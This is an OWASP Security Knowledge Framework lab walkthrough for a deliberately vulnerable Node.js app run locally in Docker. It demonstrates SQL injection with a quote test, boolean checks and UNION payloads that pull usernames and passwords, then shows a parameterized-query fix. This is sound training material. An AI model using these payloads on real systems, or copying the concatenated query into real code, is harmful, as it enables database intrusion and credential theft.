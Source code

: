 # SQLI

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-sqli
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-sqli
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](../../.gitbook/assets/nodejs/SQLI/1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/nodejs/SQLI/2.png)

```text
http://localhost:5000/home/1'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```javascript
db.get(
  "SELECT pageId, title, content FROM pages WHERE pageId=" + req.params.pageId
);
```

### Step3

Now we can also use logical operators to determine whether we can actually manipulate the SQL statements.

We start with a logical operator which is false \(and 1=2\). The expected behaviour for injecting a false logical operator would be an error or 404.

![](../../.gitbook/assets/nodejs/SQLI/3.png)

```text
http://localhost:5000/home/1 and 1=2
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](../../.gitbook/assets/nodejs/SQLI/4.png)

```text
http://localhost:5000/home/1 and 1=1
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](../../.gitbook/assets/nodejs/SQLI/5.png)

```text
http://localhost:5000/home/1 union select 1
```

This query results in an error, this is due to the fact that the original query started with 3 columns namely  
\* pageId  
\* title  
\* content

![](../../.gitbook/assets/nodejs/SQLI/6.png)

![](../../.gitbook/assets/nodejs/SQLI/7.png)

```text
http://localhost:5000/home/1 union select 1,2,3
```

Notice how "title" and "content" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take an educated guess for the table we want to steal sensitive information from. Again we can see if we try to query a non existent table we get an error. For a correct table we see the application function as intended.

![](../../.gitbook/assets/nodejs/SQLI/8.png)

```text
http://localhost:5000/home/1 union select 1,2,3 from user
```

![](../../.gitbook/assets/nodejs/SQLI/9.png)

```text
http://localhost:5000/home/1 union select 1,2,3 from users
```

![](../../.gitbook/assets/nodejs/SQLI/10.png)

```text
http://localhost:5000/home/1 union select 1,username,password from users
```

## Mitigation

SQL Injection can be prevented by following the methods described below:

Primary Defenses:

First step: White-list Input Validation\
Second step: Use of Prepared Statements (Parameterized Queries)\

Additional Defenses:

Also: Enforcing Least Privilege\
Also: Performing Allow-list Input Validation as a Secondary Defense

In this case, we have presented a SQLi code fix by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

The following code is vulnerable to SQL injection as the user input is directly concatenated into query without any form of validation:

```javascript
db.get(
  "SELECT pageId, title, content FROM pages WHERE pageId=" + req.params.pageId
);
```

This code can be easily rewritten in a way that prevent the user input from interfering with the query structure:

```javascript
db.get("SELECT pageId, title, content FROM pages WHERE pageId=?", [
  req.params.pageId,
]);
```

Can you try to implement input validation or escaping?

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-nodejs/query/" %}
